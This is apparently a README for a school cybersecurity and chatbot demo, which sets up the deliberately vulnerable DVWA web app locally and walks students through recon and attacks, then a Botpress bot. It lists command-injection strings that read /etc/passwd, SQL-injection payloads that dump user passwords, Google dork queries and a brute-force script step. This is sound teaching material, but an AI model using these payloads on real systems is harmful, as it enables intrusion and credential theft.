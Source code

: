 # EAT-Demo
NSCC Demo for École acadienne de Truro

# École acadienne de Truro Live Demo | Bienvenue

## Setup
1. Launch Terminal/Powershell as Administrator (right click Start Button)
2. Update WSL `wsl --update` or [Install](https://learn.microsoft.com/en-us/windows/wsl/install)
3. Install Git `winget install git.git`
4. Install Docker `winget install Docker.DockerDesktop`
5. Launch Docker
6. Restart PS (As Admin)
7. Pull the DVWA Image `docker pull vulnerables/web-dvwa`
8. Brute Force?
    1. `winget install python3` (if needed)
    2. `pip install requests bs4`
8. Clone the Repo 

## Part 1 | Web Hacking
### Security Intro (Obligitory Boring Stuff)  (10 Min)
* Ethical Hacking
  * Always get permission
  * Hacking is just applied Skills/Knowledge (Creatively!)
* Staying Safe
  * Stong Passwords \
    https://haveibeenpwned.com/
  * Multi-Factor
  * Always update

### Step 1 | Recon (15 Min)
* [Google Dorking](https://github.com/chr3st5an/Google-Dorking) Demo
    1. `allintext: "DVWA" "username" "password"`
    2. `allintext:"DVWA" filetype:pdf`
    3. 
* Identify a Target
  * We'll just create our own!
    * `docker run --rm -it -p 80:80 vulnerables/web-dvwa`
    * Just Browsing http://localhost
    * Click **Login** and then click **Create/Reset Database**. 


### Step 2 | Attack (20Min)
* Browser based attacks
    1. Command Injection \
    `127.0.0.1; ls -la /` \
    `127.0.0.1 ; cat /etc/passwd | tee /tmp/passwd`
    2. SQL Injection \
    `1' OR '1'='1'#` \
    `%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`
* Advanced Attacks (Automation Demo) \
  * Password Brute Force
    * Let's use brute.py
    * We'll specify our target. (Line 53)
    * We need to know usernames (line 48)
    * We need a dictionary of common passwords. (line 113) \
    `./brute.py`



## Part 2 | Generative AI - DYI ChatBot

### What is AI? (More Obligitory Boring Stuff) (5 Min)
 * How does AI learn?
 * How can we control it?
   * Data Sets
   * decision Trees
   * HardCoded!

### Botpress Demo (30 Min)
* Creating a simple Flow
* Set up a variable
* Load some data
* Add some Guardrails!
* Test your bot!


